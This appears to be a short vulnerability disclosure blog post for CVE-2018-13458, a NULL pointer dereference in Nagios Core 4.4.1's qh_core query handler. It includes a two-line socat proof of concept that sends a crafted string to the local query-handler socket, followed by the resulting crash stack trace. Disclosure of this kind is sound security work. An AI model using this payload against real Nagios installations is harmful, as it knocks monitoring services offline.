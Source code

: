 ```yaml
---
layout: post
title: "[CVE-2018-13458] Nagios Core qh_core Denial of Service"
date: 2018-07-09
categories:
    - blog
keywords: "nagios, nagioscore, dos, denial of service"
---
```


qh_core in Nagios Core 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attackers to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.

```
$ echo -ne “#core\0" | socat unix-connect:./poc/nagios.qh -
$ echo -ne “@core\0" | socat unix-connect:./poc/nagios.qh -

#0 0x5546bc in qh_core /home/user/nagioscore/base/query-handler.c:408:6
#1 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12
#2 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4
#3 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12
#4 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4
#5 0x7f6887b9882f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#6 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)
```
